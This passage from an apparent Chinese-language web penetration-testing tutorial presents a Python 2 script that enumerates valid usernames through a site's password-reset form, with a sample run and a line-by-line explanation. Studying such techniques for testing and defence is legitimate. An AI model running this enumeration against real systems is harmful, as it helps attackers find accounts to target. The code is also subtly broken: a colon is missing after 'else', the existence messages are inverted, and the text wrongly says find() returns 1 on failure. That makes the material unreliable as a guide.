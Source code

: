 ## 如何做...

一旦您了解了目标上密码重置请求的工作原理，就可以组装您的脚本。以下是您的工具的示例：

```py
#basic username check
import sys
import urllib
import urllib2

if len(sys.argv) !=2:
    print "usage: %s username" % (sys.argv[0])
    sys.exit(0)

url = "http://www.vulnerablesite.com/resetpassword.html"
username = str(sys.argv[1])
data = urllib.urlencode({"username":username})
response = urllib2.urlopen(url,data).read()
UnknownStr="Username not found"
if(response.find(UnknownStr)<0):
  print "Username does not exist\n"
else
  print "Username exists!"
```

以下显示了使用此脚本时产生的输出示例：

```py
user@pc:~# python usernamecheck.py randomusername

Username does not exist

user@pc:~# python usernamecheck.py admin

Username exists!

```

## 它是如何工作的...

在验证了参数数量并将参数分配给变量之后，我们使用`urllib`模块对要提交到页面的数据进行编码：

```py
data = urllib.urlencode({"username":username})
```

然后我们寻找指示请求由于不存在的用户名而失败的字符串：

```py
UnknownStr="Username not found"
```

find（`str`）的结果并不是简单的 true 或 false。相反，它将返回在字符串中找到子字符串的位置。但是，如果它没有找到您正在搜索的子字符串，它将返回`1`。

## 还有更多...
